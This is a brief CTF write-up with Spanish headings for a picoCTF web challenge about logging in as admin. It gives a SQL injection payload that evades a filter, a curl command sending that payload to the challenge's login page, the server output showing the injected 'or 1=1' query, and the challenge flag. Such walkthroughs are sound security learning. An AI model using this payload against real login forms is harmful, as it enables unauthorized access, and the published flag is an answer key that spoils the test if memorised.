 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Solución 
```
' be 1==1;
picoCTF{3v3n_m0r3_SQL_4424e7af}


En consola
                                                                             
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>                                                                             
┌──(kali㉿kali)-[~]

```

## Notas adicionales


## Referencias
https://brightsec.com/blog/sql-injection-payloads/